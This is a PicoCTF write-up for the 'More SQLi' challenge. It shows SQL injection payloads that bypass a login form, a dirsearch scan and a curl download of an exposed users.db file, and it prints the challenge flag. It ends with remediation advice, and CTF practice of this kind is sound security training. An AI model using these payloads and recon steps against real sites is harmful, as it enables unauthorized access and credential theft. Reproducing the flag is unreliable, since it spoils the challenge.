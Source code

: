 # 💥 More SQLi – PicoCTF Walkthrough

This challenge felt way too similar to the [SQLiLite challenge](https://github.com/toqaezzatly/PicoCTF_challenges/blob/main/medium-Web/SQLiLite.md),
but let’s dive into the **differences** and see what made this one fun.

---

## 🧪 First Attempt: Classic Injection

I started with the classic:

```text
username: ' or 1 = 1 --
password: anything
```

### Output:

![Login fail](https://github.com/user-attachments/assets/d62f31ea-2696-4017-94c7-4ae13fba2c3e)

It **didn’t work** — looks like the app is **checking password before username**, or trying to avoid comment-out abuse.

---

## 🔄 Flipping the Script

So I thought — if you swap them, I’ll swap them too 😎

### Tried:

```text
username: anything
password: ' or 1 == 1 --
```

And... it worked!

> Since `1 == 1` is always true, it doesn't matter where you inject it.

### Success!

![Login success](https://github.com/user-attachments/assets/0056c439-4181-470d-bd14-eb1f75902252)

---

## 🔎 Post-login Recon

Tried injecting into the **search bar** — didn’t get me anywhere useful.

But I noticed this in the browser:

```
http://saturn.picoctf.net:54865/welcome.php
```

So I thought: this URI might hint at something more 👀

---

## 🗂️ Directory Discovery

Ran `dirsearch` to hunt for hidden files and directories:

```bash
dirsearch -u http://saturn.picoctf.net:54865/ -x 403,404
```

### Output:

![dirsearch results](https://github.com/user-attachments/assets/5ec7de5b-0838-4524-8ac1-ab593a8dfac5)

**users.db** immediately stood out 🔥

---

## 📦 Extracting the Database

Downloaded the file with `curl`:

```bash
curl -O http://saturn.picoctf.net:58986/users.db
```

Then viewed it:

```bash
cat users.db
```

### Output:

![cat db](https://github.com/user-attachments/assets/b20df008-2c21-4946-9846-6e24339bf815)

---

## 🏁 Flag

```
picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_3b0fca37}
```

GG 💀

---

## 🧠 Lesson Learned

* SQL Injection isn’t just about dumping payloads — **know the flow** of the backend.
* If they change the logic, **change your attack**. Flipping fields worked like a charm here.
* Always inspect URLs and file structures after login. You might find a goldmine like a `.db` file sitting exposed.
* Never trust client inputs, and for the love of security, **don’t leave database files public-facing**.

---

## 🔍 Vulnerability Assessment

| Category          | Details                                                               |
| ----------------- | --------------------------------------------------------------------- |
| **Vulnerability** | SQL Injection + Sensitive File Exposure                               |
| **Root Cause**    | Unsanitized inputs in SQL queries & publicly accessible database file |
| **Impact**        | Full login bypass + direct credential dump                            |
| **Severity**      | 🔥 Critical                                                           |
| **Fix**           | Parameterized queries, input validation, block public file access     |

---

Another SQLi in the bag.
Moving on to the next one 🔐💻


